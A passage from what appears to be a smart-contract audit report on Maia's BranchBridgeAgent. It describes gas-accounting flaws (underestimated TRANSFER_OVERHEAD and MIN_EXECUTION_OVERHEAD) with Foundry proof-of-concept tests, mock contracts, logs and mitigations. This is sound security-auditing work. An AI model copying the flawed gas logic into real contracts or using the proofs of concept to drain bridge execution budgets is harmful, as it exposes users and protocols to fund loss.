            if lt(selfbalance(), amount) {
                // Store the function selector of `ETHTransferFailed()`.
                mstore(0x00, 0xb12d13eb)
                // Revert with (offset, size).
                revert(0x1c, 0x04)
            }
            // Transfer the ETH and check if it succeeded or not.
            if iszero(call(_GAS_STIPEND_NO_GRIEF, to, amount, 0, 0, 0, 0)) {
                mstore(0x00, to) // Store the address in scratch space.
                mstore8(0x0b, 0x73) // Opcode `PUSH20`.
                mstore8(0x20, 0xff) // Opcode `SELFDESTRUCT`.
                // We can directly use `SELFDESTRUCT` in the contract creation.
                // Compatible with `SENDALL`: https://eips.ethereum.org/EIPS/eip-4758
                if iszero(create(amount, 0x0b, 0x16)) {
                    // To coerce gas estimation to provide enough gas for the `create` above.
                    if iszero(gt(gas(), 1000000)) {
                        revert(0, 0)
                    }
                }
            }
        }
    }

    /// @dev Sends `amount` (in wei) ETH to `to`, with a `gasStipend`.
    /// The `gasStipend` can be set to a low enough value to prevent
    /// storage writes or gas griefing.
    ///
    /// Simply use `gasleft()` for `gasStipend` if you don't need a gas stipend.
    ///
    /// Note: Does NOT revert upon failure.
    /// Returns whether the transfer of ETH is successful instead.
    function trySafeTransferETH(
        address to,
        uint256 amount,
        uint256 gasStipend
    ) internal returns (bool success) {
        /// @solidity memory-safe-assembly
        assembly {
            // Transfer the ETH and check if it succeeded or not.
            success := call(gasStipend, to, amount, 0, 0, 0, 0)
        }
    }

    /*´:°•.°+.*•´.*:˚.°*.˚•´.°:°•.°•.*•´.*:˚.°*.˚•´.°:°•.°+.*•´.*:*/
    /-                    ERC20 OPERATIONS                      */
    /*.•°:°.´+˚.*°.˚:*.´•*.+°.•°:´*.´•*.•°.•°:°.´:•˚°.*°.˚:*.´+°.•*/

    /// @dev Sends `amount` of ERC20 `token` from `from` to `to`.
    /// Reverts upon failure.
    ///
    /// The `from` account must have at least `amount` approved for
    /// the current contract to manage.
    function safeTransferFrom(
        address token,
        address from,
        address to,
        uint256 amount
    ) internal {
        /// @solidity memory-safe-assembly
        assembly {
            let m := mload(0x40) // Cache the free memory pointer.

            mstore(0x60, amount) // Store the `amount` argument.
            mstore(0x40, to) // Store the `to` argument.
            mstore(0x2c, shl(96, from)) // Store the `from` argument.
            // Store the function selector of `transferFrom(address,address,uint256)`.
            mstore(0x0c, 0x23b872dd000000000000000000000000)

            if iszero(
                and(
                    // The arguments of `and` are evaluated from right to left.
                    // Set success to whether the call reverted, if not we check it either
                    // returned exactly 1 (can't just be non-zero data), or had no return data.
                    or(eq(mload(0x00), 1), iszero(returndatasize())),
                    call(gas(), token, 0, 0x1c, 0x64, 0x00, 0x20)
                )
            ) {
                // Store the function selector of `TransferFromFailed()`.
                mstore(0x00, 0x7939f424)
                // Revert with (offset, size).
                revert(0x1c, 0x04)
            }

            mstore(0x60, 0) // Restore the zero slot to zero.
            mstore(0x40, m) // Restore the free memory pointer.
        }
    }

    /// @dev Sends all of ERC20 `token` from `from` to `to`.
    /// Reverts upon failure.
    ///
    /// The `from` account must have their entire balance approved for
    /// the current contract to manage.
    function safeTransferAllFrom(
        address token,
        address from,
        address to
    ) internal returns (uint256 amount) {
        /// @solidity memory-safe-assembly
        assembly {
            let m := mload(0x40) // Cache the free memory pointer.

            mstore(0x40, to) // Store the `to` argument.
            mstore(0x2c, shl(96, from)) // Store the `from` argument.
            // Store the function selector of `balanceOf(address)`.
            mstore(0x0c, 0x70a08231000000000000000000000000)
            if iszero(
                and(
                    // The arguments of `and` are evaluated from right to left.
                    gt(returndatasize(), 0x1f), // At least 32 bytes returned.
                    staticcall(gas(), token, 0x1c, 0x24, 0x60, 0x20)
                )
            ) {
                // Store the function selector of `TransferFromFailed()`.
                mstore(0x00, 0x7939f424)
                // Revert with (offset, size).
                revert(0x1c, 0x04)
            }

            // Store the function selector of `transferFrom(address,address,uint256)`.
            mstore(0x00, 0x23b872dd)
            // The `amount` argument is already written to the memory word at 0x60.
            amount := mload(0x60)

            if iszero(
                and(
                    // The arguments of `and` are evaluated from right to left.
                    // Set success to whether the call reverted, if not we check it either
                    // returned exactly 1 (can't just be non-zero data), or had no return data.
                    or(eq(mload(0x00), 1), iszero(returndatasize())),
                    call(gas(), token, 0, 0x1c, 0x64, 0x00, 0x20)
                )
            ) {
                // Store the function selector of `TransferFromFailed()`.
                mstore(0x00, 0x7939f424)
                // Revert with (offset, size).
                revert(0x1c, 0x04)
            }

            mstore(0x60, 0) // Restore the zero slot to zero.
            mstore(0x40, m) // Restore the free memory pointer.
        }
    }

    /// @dev Sends `amount` of ERC20 `token` from the current contract to `to`.
    /// Reverts upon failure.
    function safeTransfer(address token, address to, uint256 amount) internal {
        /// @solidity memory-safe-assembly
        assembly {
            mstore(0x14, to) // Store the `to` argument.
            mstore(0x34, amount) // Store the `amount` argument.
            // Store the function selector of `transfer(address,uint256)`.
            mstore(0x00, 0xa9059cbb000000000000000000000000)

            if iszero(
                and(
                    // The arguments of `and` are evaluated from right to left.
                    // Set success to whether the call reverted, if not we check it either
                    // returned exactly 1 (can't just be non-zero data), or had no return data.
                    or(eq(mload(0x00), 1), iszero(returndatasize())),
                    call(gas(), token, 0, 0x10, 0x44, 0x00, 0x20)
                )
            ) {
                // Store the function selector of `TransferFailed()`.
                mstore(0x00, 0x90b8ec18)
                // Revert with (offset, size).
                revert(0x1c, 0x04)
            }
            // Restore the part of the free memory pointer that was overwritten.
            mstore(0x34, 0)
        }
    }

    /// @dev Sends all of ERC20 `token` from the current contract to `to`.
    /// Reverts upon failure.
    function safeTransferAll(
        address token,
        address to
    ) internal returns (uint256 amount) {
        /// @solidity memory-safe-assembly
        assembly {
            mstore(0x00, 0x70a08231) // Store the function selector of `balanceOf(address)`.
            mstore(0x20, address()) // Store the address of the current contract.
            if iszero(
                and(
                    // The arguments of `and` are evaluated from right to left.
                    gt(returndatasize(), 0x1f), // At least 32 bytes returned.
                    staticcall(gas(), token, 0x1c, 0x24, 0x34, 0x20)
                )
            ) {
                // Store the function selector of `TransferFailed()`.
                mstore(0x00, 0x90b8ec18)
                // Revert with (offset, size).
                revert(0x1c, 0x04)
            }

            mstore(0x14, to) // Store the `to` argument.
            // The `amount` argument is already written to the memory word at 0x34.
            amount := mload(0x34)
            // Store the function selector of `transfer(address,uint256)`.
            mstore(0x00, 0xa9059cbb000000000000000000000000)

            if iszero(
                and(
                    // The arguments of `and` are evaluated from right to left.
                    // Set success to whether the call reverted, if not we check it either
                    // returned exactly 1 (can't just be non-zero data), or had no return data.
                    or(eq(mload(0x00), 1), iszero(returndatasize())),
                    call(gas(), token, 0, 0x10, 0x44, 0x00, 0x20)
                )
            ) {
                // Store the function selector of `TransferFailed()`.
                mstore(0x00, 0x90b8ec18)
                // Revert with (offset, size).
                revert(0x1c, 0x04)
            }
            // Restore the part of the free memory pointer that was overwritten.
            mstore(0x34, 0)
        }
    }

    /// @dev Sets `amount` of ERC20 `token` for `to` to manage on behalf of the current contract.
    /// Reverts upon failure.
    function safeApprove(address token, address to, uint256 amount) internal {
        /// @solidity memory-safe-assembly
        assembly {
            mstore(0x14, to) // Store the `to` argument.
            mstore(0x34, amount) // Store the `amount` argument.
            // Store the function selector of `approve(address,uint256)`.
            mstore(0x00, 0x095ea7b3000000000000000000000000)

            if iszero(
                and(
                    // The arguments of `and` are evaluated from right to left.
                    // Set success to whether the call reverted, if not we check it either
                    // returned exactly 1 (can't just be non-zero data), or had no return data.
                    or(eq(mload(0x00), 1), iszero(returndatasize())),
                    call(gas(), token, 0, 0x10, 0x44, 0x00, 0x20)
                )
            ) {
                // Store the function selector of `ApproveFailed()`.
                mstore(0x00, 0x3e3f8f73)
                // Revert with (offset, size).
                revert(0x1c, 0x04)
            }
            // Restore the part of the free memory pointer that was overwritten.
            mstore(0x34, 0)
        }
    }

    /// @dev Returns the amount of ERC20 `token` owned by `account`.
    /// Returns zero if the `token` does not exist.
    function balanceOf(
        address token,
        address account
    ) internal view returns (uint256 amount) {
        /// @solidity memory-safe-assembly
        assembly {
            mstore(0x14, account) // Store the `account` argument.
            // Store the function selector of `balanceOf(address)`.
            mstore(0x00, 0x70a08231000000000000000000000000)
            amount := mul(
                mload(0x20),
                and(
                    // The arguments of `and` are evaluated from right to left.
                    gt(returndatasize(), 0x1f), // At least 32 bytes returned.
                    staticcall(gas(), token, 0x10, 0x24, 0x20, 0x20)
                )
            )
        }
    }
}

interface IAnycallExecutor {
    function context()
        external
        view
        returns (address from, uint256 fromChainID, uint256 nonce);

    function execute(
        address _to,
        bytes calldata _data,
        address _from,
        uint256 _fromChainID,
        uint256 _nonce,
        uint256 _flags,
        bytes calldata _extdata
    ) external returns (bool success, bytes memory result);
}

interface IAnycallConfig {
    function calcSrcFees(
        address _app,
        uint256 _toChainID,
        uint256 _dataLength
    ) external view returns (uint256);

    function executionBudget(address _app) external view returns (uint256);

    function deposit(address _account) external payable;

    function withdraw(uint256 _amount) external;
}

interface IAnycallProxy {
    function executor() external view returns (address);

    function config() external view returns (address);

    function anyCall(
        address _to,
        bytes calldata _data,
        uint256 _toChainID,
        uint256 _flags,
        bytes calldata _extdata
    ) external payable;

    function anyCall(
        string calldata _to,
        bytes calldata _data,
        uint256 _toChainID,
        uint256 _flags,
        bytes calldata _extdata
    ) external payable;
}

contract WETH9 {
    string public name = "Wrapped Ether";
    string public symbol = "WETH";
    uint8 public decimals = 18;

    event Approval(address indexed src, address indexed guy, uint256 wad);
    event Transfer(address indexed src, address indexed dst, uint256 wad);
    event Deposit(address indexed dst, uint256 wad);
    event Withdrawal(address indexed src, uint256 wad);

    mapping(address => uint256) public balanceOf;
    mapping(address => mapping(address => uint256)) public allowance;

    // function receive() external payable {
    //   deposit();
    // }

    function deposit() public payable {
        balanceOf[msg.sender] += msg.value;
        emit Deposit(msg.sender, msg.value);
    }

    function withdraw(uint256 wad) public {
        require(balanceOf[msg.sender] >= wad);
        balanceOf[msg.sender] -= wad;
        payable(msg.sender).transfer(wad);
        emit Withdrawal(msg.sender, wad);
    }

    function totalSupply() public view returns (uint256) {
        return address(this).balance;
    }

    function approve(address guy, uint256 wad) public returns (bool) {
        allowance[msg.sender][guy] = wad;
        emit Approval(msg.sender, guy, wad);
        return true;
    }

    function transfer(address dst, uint256 wad) public returns (bool) {
        return transferFrom(msg.sender, dst, wad);
    }

    function transferFrom(
        address src,
        address dst,
        uint256 wad
    ) public returns (bool) {
        require(balanceOf[src] >= wad);

        if (src != msg.sender && allowance[src][msg.sender] != 255) {
            require(allowance[src][msg.sender] >= wad);
            allowance[src][msg.sender] -= wad;
        }

        balanceOf[src] -= wad;
        balanceOf[dst] += wad;

        emit Transfer(src, dst, wad);

        return true;
    }
}

contract AnycallExecutor {
    struct Context {
        address from;
        uint256 fromChainID;
        uint256 nonce;
    }
    // Context public override context;
    Context public context;

    constructor() {
        context.fromChainID = 1;
        context.from = address(2);
        context.nonce = 1;
    }
}

contract AnycallV7Config {
    event Deposit(address indexed account, uint256 amount);

    mapping(address => uint256) public executionBudget;

    /// @notice Deposit native currency crediting `_account` for execution costs on this chain
    /// @param _account The account to deposit and credit for
    function deposit(address _account) external payable {
        executionBudget[_account] += msg.value;
        emit Deposit(_account, msg.value);
    }
}

contract BranchBridgeAgent {
    error AnycallUnauthorizedCaller();
    error GasErrorOrRepeatedTx();

    uint256 public remoteCallDepositedGas;

    uint256 internal constant MIN_EXECUTION_OVERHEAD = 160_000; // 100_000 for anycall + 35_000 Pre 1st Gas Checkpoint Execution + 25_000 Post last Gas Checkpoint Executions
    uint256 internal constant TRANSFER_OVERHEAD = 24_000;

    WETH9 public immutable wrappedNativeToken;

    AnycallV7Config public anycallV7Config;

    uint256 public accumulatedFees;

    /// @notice Local Chain Id
    uint24 public immutable localChainId;

    /// @notice Address for Bridge Agent who processes requests submitted for the Root Router Address where cross-chain requests are executed in the Root Chain.
    address public immutable rootBridgeAgentAddress;
    /// @notice Local Anyexec Address
    address public immutable local`AnyCall`ExecutorAddress;

    /// @notice Address for Local AnycallV7 Proxy Address where cross-chain requests are sent to the Root Chain Router.
    address public immutable local`AnyCall`Address;

    constructor() {
        AnycallExecutor anycallExecutor = new AnycallExecutor();
        local`AnyCall`ExecutorAddress = address(anycallExecutor);

        localChainId = 1;

        wrappedNativeToken = new WETH9();

        local`AnyCall`Address = address(3);

        rootBridgeAgentAddress = address(2);

        anycallV7Config = new AnycallV7Config();
    }

    modifier requiresExecutor() {
        _requiresExecutor();
        _;
    }

    function _requiresExecutor() internal view {
        if (msg.sender != local`AnyCall`ExecutorAddress)
            revert AnycallUnauthorizedCaller();
        (address from, , ) = IAnycallExecutor(local`AnyCall`ExecutorAddress)
            .context();
        if (from != rootBridgeAgentAddress) revert AnycallUnauthorizedCaller();
    }

    function _replenishGas(uint256 _executionGasSpent) internal virtual {
        //Deposit Gas
        anycallV7Config.deposit{value: _executionGasSpent}(address(this));
        // IAnycallConfig(IAnycallProxy(local`AnyCall`Address).config()).deposit{value: _executionGasSpent}(address(this));
    }

    function _forceRevert() internal virtual {
        IAnycallConfig anycallConfig = IAnycallConfig(
            IAnycallProxy(local`AnyCall`Address).config()
        );

        // uint256 executionBudget = anycallConfig.executionBudget(address(this));
        uint256 executionBudget = anycallV7Config.executionBudget(
            address(this)
        );

        // Withdraw all execution gas budget from anycall for tx to revert with "no enough budget"
        if (executionBudget > 0)
            try anycallConfig.withdraw(executionBudget) {} catch {}
    }

    /**
     * @notice Internal function repays gas used by Branch Bridge Agent to fulfill remote initiated interaction.
     - @param _recipient address to send excess gas to.
     - @param _initialGas gas used by Branch Bridge Agent.
     */
    function _payExecutionGas(
        address _recipient,
        uint256 _initialGas
    ) internal virtual {
        //Gas remaining
        uint256 gasRemaining = wrappedNativeToken.balanceOf(address(this));

        //Unwrap Gas
        wrappedNativeToken.withdraw(gasRemaining);

        //Delete Remote Initiated Action State
        delete (remoteCallDepositedGas);

        ///Save gas left
        uint256 gasLeft = gasleft();

        //Get Branch Environment Execution Cost
        // Assume tx.gasPrice 1e9
        uint256 minExecCost = 1e9 *
            (MIN_EXECUTION_OVERHEAD + _initialGas - gasLeft);

        //Check if sufficient balance
        if (minExecCost > gasRemaining) {
            _forceRevert();
            return;
        }

        //Replenish Gas
        _replenishGas(minExecCost);

        //Transfer gas remaining to recipient
        SafeTransferLib.safeTransferETH(_recipient, gasRemaining - minExecCost);

        //Save Gas
        uint256 gasAfterTransfer = gasleft();

        //Check if sufficient balance // This condition is always true
        if (gasLeft - gasAfterTransfer > TRANSFER_OVERHEAD) {
            console.log(
                "(gasLeft - gasAfterTransfer > TRANSFER_OVERHEAD) => true"
            );
            console.log(
                "gasLeft - gasAfterTransfer = %d - %d = %d",
                gasLeft,
                gasAfterTransfer,
                gasLeft - gasAfterTransfer
            );
            _forceRevert();
            return;
        }
    }

    function anyExecute(
        bytes memory data
    )
        public
        virtual
        requiresExecutor
        returns (bool success, bytes memory result)
    {
        //Get Initial Gas Checkpoint
        uint256 initialGas = gasleft();

        //Action Recipient
        address recipient = address(0x0); // for simplicity and since it is irrelevant //address(uint160(bytes20(data[PARAMS_START:PARAMS_START_SIGNED])));

        // Other Code Here

        //Deduct gas costs from deposit and replenish this bridge agent's execution budget.
        _payExecutionGas(recipient, initialGas);
    }

    function depositIntoWeth(uint256 amt) external {
        wrappedNativeToken.deposit{value: amt}();
    }

    fallback() external payable {}
}

contract GasCalcTransferOverHead is DSTest, Test {
    BranchBridgeAgent branchBridgeAgent;

    function setUp() public {
        branchBridgeAgent = new BranchBridgeAgent();
        vm.deal(
            address(branchBridgeAgent.local`AnyCall`ExecutorAddress()),
            100 ether
        ); // executer pays gas
        vm.deal(address(branchBridgeAgent), 100 ether);
    }

    function test_anyexecute_always_revert_bc_transfer_overhead() public {
        // add weth balance
        branchBridgeAgent.depositIntoWeth(100 ether);
        vm.prank(address(branchBridgeAgent.local`AnyCall`ExecutorAddress()));
        vm.expectRevert();
        branchBridgeAgent.anyExecute{gas: 1 ether}(bytes(""));
        vm.stopPrank();
    }
}

```

</details>

### Recommended Mitigation Steps

Increase the `TRANSFER_OVERHEAD` to cover the actual gas spent. You could also add a gas checkpoint immediately before the transfer to make the naming makes sense (i.e. `TRANSFER_OVERHEAD`). However, the gas will be nearly `34_378`, which is still higher than `TRANSFER_OVERHEAD` (`24_000`).

You can simply comment out the code after `gasLeft` till the transfer, by removing `_minExecCost` from the value to transfer since it is commented out. Now, when you run the test again, you will see an output like this (with a failed test but we are not interested in it anyway):

```solidity
[FAIL. Reason: Call did not revert as expected] test_anyexecute_always_revert_bc_transfer_overhead() (gas: 111185)
Logs:
  (gasLeft - gasAfterTransfer > TRANSFER_OVERHEAD) => true
  gasLeft - gasAfterTransfer = 999999999999979606 - 999999999999945228 = 34378

Test result: FAILED. 0 passed; 1 failed; finished in 1.26ms
```

**`gasLeft` - `gasAfterTransfer` = 34378**

Please note that I have tested a simple function in Remix as well and it gave the same gas spent (i.e. 34378):

    // copy the library code from Solady and paste it here
    // https://github.com/Vectorized/solady/blob/main/src/utils/SafeTransferLib.sol


    contract Test {

           function testGas() payable public returns (uint256){
            ///Save gas left
            uint256 gasLeft = gasleft();

            //Transfer gas remaining to recipient
            SafeTransferLib.safeTransferETH(address(0), 1 ether);

            //Save Gas
            uint256 gasAfterTransfer = gasleft();

            return gasLeft-gasAfterTransfer;

           }

    }

The returned value will be 34378.

**[0xBugsy (Maia) confirmed and commented](https://github.com/code-423n4/2023-05-maia-findings/issues/610#issuecomment-1655675877):**
 > We recognize the audit's findings on Anycall Gas Management. These will not be rectified due to the upcoming migration of this section to LayerZero.

***

## [[H-16] Overpaying remaining gas to the user for failing `anyExecute` call due to an incorrect gas unit calculation in `BranchBridgeAgent`](https://github.com/code-423n4/2023-05-maia-findings/issues/607)
*Submitted by [Koolex](https://github.com/code-423n4/2023-05-maia-findings/issues/607), also found by [Koolex](https://github.com/code-423n4/2023-05-maia-findings/issues/601)*

The `anyExecute` method is called by the `Anycall Executor` on the destination chain to execute interaction. The user has to pay for the remote call `ExecutionGas`; this is done at the end of the call. However, if there is not enough `gasRemaining`, the `anyExecute` will be reverted due to a revert caused by the `Anycall Executor`.

Here is the calculation for the gas used:

```solidity
	///Save gas left
	uint256 gasLeft = gasleft();

	//Get Branch Environment Execution Cost
	uint256 minExecCost = tx.gasprice * (MIN_EXECUTION_OVERHEAD + _initialGas - gasLeft);

	//Check if sufficient balance
	if (minExecCost > gasRemaining) {
		_forceRevert();
		return;
	}
```
<https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L1018-L1054>

`_forceRevert` will withdraw all of the execution budget:

    	// Withdraw all execution gas budget from anycall for tx to revert with "no enough budget"
    	if (executionBudget > 0) try anycallConfig.withdraw(executionBudget) {} catch {}

So `Anycall Executor` will revert if there is not enough budget. This is done at:

```solidity
	uint256 budget = executionBudget[_from];
	require(budget > totalCost, "no enough budget");
	executionBudget[_from] = budget - totalCost;
```

<https://github.com/anyswap/multichain-smart-contracts/blob/main/contracts/anycall/v7/AnycallV7Config.sol#L206C42-L206C58>

### (1) Gas Calculation:

To calculate how much the user has to pay, the following formula is used:

```solidity
        //Get Branch Environment Execution Cost
        uint256 minExecCost = tx.gasprice * (MIN_EXECUTION_OVERHEAD + _initialGas - gasLeft);
```

Gas units are calculated as follows:

- Store `gasleft()` at `initialGas` at the beginning of `anyExecute` method:

```solidity
	//Get Initial Gas Checkpoint
	uint256 initialGas = gasleft();
```

<https://github.com/code-423n4/2023-05-maia/blob/main/src/ulysses-omnichain/BranchBridgeAgent.sol#L1125>

- Nearly at the end of the method, deduct `gasleft()` from `initialGas`. This covers everything between the initial gas checkpoint and the end gas checkpoint.

```solidity
        ///Save gas left
        uint256 gasLeft = gasleft();

        //Get Branch Environment Execution Cost
        uint256 minExecCost = tx.gasprice * (MIN_EXECUTION_OVERHEAD + _initialGas - gasLeft);
```

- Add `MIN_EXECUTION_OVERHEAD` which is `160_000`.

```

        uint256 internal constant MIN_EXECUTION_OVERHEAD = 160_000; // 100_000 for anycall + 35_000 Pre 1st Gas Checkpoint Execution + 25_000 Post last Gas Checkpoint Executions

```

This overhead is supposed to cover:

- **`100_000` for `anycall`**. This is an extra cost required by `Anycall`:

```solidity
Line:38	
uint256 constant EXECUTION_OVERHEAD = 100000;
	.
	.
Line:203	
uint256 gasUsed = _prevGasLeft + EXECUTION_OVERHEAD - gasleft();
```

<https://github.com/anyswap/multichain-smart-contracts/blob/main/contracts/anycall/v7/AnycallV7Config.sol#L203>

- **`35_000` Pre-First Gas Checkpoint Execution**. For example, to cover the modifier `requiresExecutor`.

- **`25_000` Post-Last Gas Checkpoint Execution**. To cover everything after the end gas checkpoint:

```solidity
	//Get Branch Environment Execution Cost
	uint256 minExecCost = tx.gasprice * (MIN_EXECUTION_OVERHEAD + _initialGas - gasLeft);

	//Check if sufficient balance
	if (minExecCost > gasRemaining) {
		_forceRevert();
		return;
	}

	//Replenish Gas
	_replenishGas(minExecCost);

	//Transfer gas remaining to recipient
	SafeTransferLib.safeTransferETH(_recipient, gasRemaining - minExecCost);

	//Save Gas
	uint256 gasAfterTransfer = gasleft();

	//Check if sufficient balance
	if (gasLeft - gasAfterTransfer > TRANSFER_OVERHEAD) {
		_forceRevert();
		return;
	}
```

The issue is, `60_000` is not enough to cover pre-first gas checkpoint and post-last gas checkpoint. This means, that the user is paying less than the actual gas cost. According to the sponsor, the `Bridge Agent` deployer deposits the first time into `anycallConfig`, where the goal is to replenish the execution budget after use every time. The issue could possibly lead to:

1. Overpaying the remaining gas the user.
2. The execution budget is decreasing over time (slow draining) in case it has funds already.
3. The `anyExecute` calls will fail since the calculation of the gas used in the `Anycall` contracts is way bigger. In `Anycall`, this is done by the modifier `chargeDestFee`:

    - modifier `chargeDestFee`:

    ```solidity
    	modifier chargeDestFee(address _from, uint256 _flags) {
    	if (_isSet(_flags, AnycallFlags.FLAG_PAY_FEE_ON_DEST)) {
    		uint256 _prevGasLeft = gasleft();
    		_;
    		IAnycallConfig(config).chargeFeeOnDestChain(_from, _prevGasLeft);
    	} else {
    		_;
    	}
    }
    ```

    <https://github.com/anyswap/multichain-smart-contracts/blob/main/contracts/anycall/v7/AnycallV7Upgradeable.sol#L163-L171>

    - function `chargeFeeOnDestChain`:

    ```solidity
    	function chargeFeeOnDestChain(address _from, uint256 _prevGasLeft)
    		external
    		onlyAnycallContract
    	{
    		if (!_isSet(mode, FREE_MODE)) {
    			uint256 gasUsed = _prevGasLeft + EXECUTION_OVERHEAD - gasleft();
    			uint256 totalCost = gasUsed * (tx.gasprice + _feeData.premium);
    			uint256 budget = executionBudget[_from];
    			require(budget > totalCost, "no enough budget");
    			executionBudget[_from] = budget - totalCost;
    			_feeData.accruedFees += uint128(totalCost);
    		}
    	}
    ```

    <https://github.com/anyswap/multichain-smart-contracts/blob/main/contracts/anycall/v7/AnycallV7Config.sol#L203>

### (2) Gas Calculation in ``AnyCall``:

There is also a gas consumption at the `anyExec` method called by the MPC (in ``AnyCall``) here:

```solidity
    function anyExec(
        address _to,
        bytes calldata _data,
        string calldata _appID,
        RequestContext calldata _ctx,
        bytes calldata _extdata
    )
        external
        virtual
        lock
        whenNotPaused
        chargeDestFee(_to, _ctx.flags) // <= starting from here
        onlyMPC
    {
		.
		.
		.
		bool success = _execute(_to, _data, _ctx, _extdata);
		.
		.
   }
```

<https://github.com/anyswap/multichain-smart-contracts/blob/main/contracts/anycall/v7/AnycallV7Upgradeable.sol#L276>

The gas is nearly `110_000`. It is not taken into account.

### (3) Base Fee & Input Data Fee:

From [Ethereum yellow paper](https://ethereum.github.io/yellowpaper/paper.pdf):

> Gtransaction 21000 - Paid for every transaction.<br>
> Gtxdatazero 4 - Paid for every zero byte of data or code for a transaction.<br>
> Gtxdatanonzero 16 - Paid for every non-zero byte of data or code for a transaction.

So:

1. We have `21_000` as a base fee. This should be taken into account. However, it is paid by ``AnyCall``, since the TX is sent by MPC. So, we are fine here. This probably explains the overhead (`100_000`) added by `anycall`.

2. Because the `anyExecute` method has bytes data to be passed, we have extra gas consumption which is not taken into account.

For every zero byte `=>` 4.
For every non-zero byte `=>` 16.

So generally speaking, the bigger the data is, the bigger the gas becomes. You can simply prove this by adding arbitrary data to the `anyExecute` method in PoC #1 test below and you will see the gas spent increases.

### Summary

1. `MIN_EXECUTION_OVERHEAD` is underestimated.
2. The gas consumed by the `anyExec` method called by the MPC is not considered.
3. Input data fee isn't taken into account.

There are two PoCs proving the first two points above. The third point can be proven by simply adding arbitrary data to the `anyExecute` method in PoC #1 test.

### Proof of Concept

### PoC #1 (`MIN_EXECUTION_OVERHEAD` is underestimated):

This PoC is independent from the codebase (but uses the same code). There are two contracts simulating `BranchBridgeAgent.anyExecute`:

1. **`BranchBridgeAgent`** - which has the code of the pre-first gas checkpoint and the post-last gas checkpoint.
2. **`BranchBridgeAgentEmpty`** - which has the code of the pre-first gas checkpoint and the post-last gas checkpoint **commented out**.

We run the same test for both, the difference in gas is what's at least nearly the minimum required to cover the pre-first gas checkpoint and the post-last gas checkpoint. In this case here it is **78097** which is bigger than `60_000`.

Here is the output of the test:

```sh
[PASS] test_calcgas() (gas: 119050)
Logs:
  branchBridgeAgent.anyExecute Gas Spent => 92852

[PASS] test_calcgasEmpty() (gas: 44461)
Logs:
  branchBridgeAgentEmpty.anyExecute Gas Spent => 14755
```

**`92852 - 14755` = 78097**

### Explanation

`BranchBridgeAgent.anyExecute` method depends on the following external calls:

1. `AnycallExecutor.context()`
2. `AnycallProxy.config()`
3. `AnycallConfig.executionBudget()`
4. `AnycallConfig.withdraw()`
5. `AnycallConfig.deposit()`
6. `WETH9.withdraw()`

For this reason, I've copied the same code from [multichain-smart-contracts](https://github.com/anyswap/multichain-smart-contracts). For WETH9, I've used the contract from the codebase which has minimal code.

Please note that:

- **tx.gasprice** is replaced with a fixed value in the `_payExecutionGas` method, as it is not available in Foundry.
- In `_replenishGas`, reading the config via `IAnycallProxy(local`AnyCall`Address).config()` is replaced with an immediate call for simplicity. In other words, avoiding a proxy to make the PoC simpler and shorter. However, if done with a proxy the gas used would increase. So in both ways, it is in favor of the PoC.
- The condition `if (gasLeft - gasAfterTransfer > TRANSFER_OVERHEAD)` is replaced with `if (gasLeft - gasAfterTransfer > TRANSFER_OVERHEAD && false)`. This is to avoid entering the `forceRevert`. The increase of gas here is negligible.

### The coded PoC

- `Foundry.toml`

```sh
	[profile.default]
	solc = '0.8.17'
	src = 'solidity'
	test = 'solidity/test'
	out = 'out'
	libs = ['lib']
	fuzz_runs = 1000
	optimizer_runs = 10_000
```

- `.gitmodules`

```sh
	[submodule "lib/ds-test"]
		path = lib/ds-test
		url = https://github.com/dapphub/ds-test
		branch = master
	[submodule "lib/forge-std"]
		path = lib/forge-std
		url = https://github.com/brockelmore/forge-std
		branch = master
```

- `remappings.txt`

```sh
	ds-test/=lib/ds-test/src
	forge-std/=lib/forge-std/src
```

- Test File:

<details> 

```solidity
// PoC => Maia OmniChain: gasCalculation in BranchBridgeAgent  
pragma solidity >=0.8.4 <0.9.0;

import {Test} from "forge-std/Test.sol";
import "forge-std/console.sol";

import {DSTest} from "ds-test/test.sol";


library SafeTransferLib {
    /*´:°•.°+.*•´.*:˚.°*.˚•´.°:°•.°•.*•´.*:˚.°*.˚•´.°:°•.°+.*•´.*:*/
    /-                     CUSTOM ERRORS                        */
    /*.•°:°.´+˚.*°.˚:*.´•*.+°.•°:´*.´•*.•°.•°:°.´:•˚°.*°.˚:*.´+°.•*/

    /// @dev The ETH transfer has failed.
    error ETHTransferFailed();

    /// @dev The ERC20 `transferFrom` has failed.
    error TransferFromFailed();

    /// @dev The ERC20 `transfer` has failed.
    error TransferFailed();

    /// @dev The ERC20 `approve` has failed.
    error ApproveFailed();

    /*´:°•.°+.*•´.*:˚.°*.˚•´.°:°•.°•.*•´.*:˚.°*.˚•´.°:°•.°+.*•´.*:*/
    /-                       CONSTANTS                          */
    /*.•°:°.´+˚.*°.˚:*.´•*.+°.•°:´*.´•*.•°.•°:°.´:•˚°.*°.˚:*.´+°.•*/

    /// @dev Suggested gas stipend for contract receiving ETH
    /// that disallows any storage writes.
    uint256 internal constant _GAS_STIPEND_NO_STORAGE_WRITES = 2300;

    /// @dev Suggested gas stipend for contract receiving ETH to perform a few
    /// storage reads and writes, but low enough to prevent griefing.
    /// Multiply by a small constant (e.g. 2), if needed.
    uint256 internal constant _GAS_STIPEND_NO_GRIEF = 100000;

    /*´:°•.°+.*•´.*:˚.°*.˚•´.°:°•.°•.*•´.*:˚.°*.˚•´.°:°•.°+.*•´.*:*/
    /-                     ETH OPERATIONS                       */
    /*.•°:°.´+˚.*°.˚:*.´•*.+°.•°:´*.´•*.•°.•°:°.´:•˚°.*°.˚:*.´+°.•*/

    /// @dev Sends `amount` (in wei) ETH to `to`.
    /// Reverts upon failure.
    ///
    /// Note: This implementation does NOT protect against gas griefing.
    /// Please use `forceSafeTransferETH` for gas griefing protection.
    function safeTransferETH(address to, uint256 amount) internal {
        /// @solidity memory-safe-assembly
        assembly {
            // Transfer the ETH and check if it succeeded or not.
            if iszero(call(gas(), to, amount, 0, 0, 0, 0)) {
                // Store the function selector of `ETHTransferFailed()`.
                mstore(0x00, 0xb12d13eb)
                // Revert with (offset, size).
                revert(0x1c, 0x04)
            }
        }
    }

    /// @dev Force sends `amount` (in wei) ETH to `to`, with a `gasStipend`.
    /// The `gasStipend` can be set to a low enough value to prevent
    /// storage writes or gas griefing.
    ///
    /// If sending via the normal procedure fails, force sends the ETH by
    /// creating a temporary contract which uses `SELFDESTRUCT` to force send the ETH.
    ///
    /// Reverts if the current contract has insufficient balance.
    function forceSafeTransferETH(address to, uint256 amount, uint256 gasStipend) internal {
        /// @solidity memory-safe-assembly
        assembly {
